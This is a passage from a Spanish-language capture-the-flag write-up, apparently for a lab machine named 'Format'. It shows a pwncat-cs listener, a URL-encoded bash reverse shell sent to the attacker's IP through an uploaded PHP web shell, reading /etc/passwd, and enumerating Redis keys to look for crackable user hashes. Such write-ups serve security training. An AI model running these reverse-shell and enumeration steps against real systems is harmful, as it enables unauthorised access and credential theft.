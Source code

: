 ![Write-up Image](images/Screenshot_29.png)

Ahora para mandarnos la consola, nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
```

Ahora al acceder a `http://test.microblog.htb/uploads/test.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.73/443%200%3E%261%22`

Conseguimos la consola.
```console
(remote) www-data@format:/var/www/microblog/test/uploads$ whoami
www-data
```

# User Pivoting
Encontramos los usuarios `cooper` y `git` en el sistema.
```console
(remote) www-data@format:/var$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
cooper:x:1000:1000::/home/cooper:/bin/bash
git:x:104:111:Git Version Control,,,:/home/git:/bin/bash
```

Ahora podemos intentar ver la base de datos de Redis e intentar crackear los hashes de los usuarios que nos encontremos.

Además justo se ejecutó el script que esta máquina tiene por detrás para limpiar la base de datos de Redis, así que me viene perfecto para poder enumerar lo que estaba originalmente.
```console
(remote) www-data@format:/var$ redis-cli -s /var/run/redis/redis.sock 
redis /var/run/redis/redis.sock> keys *
1) "cooper.dooper"
2) "cooper.dooper:sites"
```
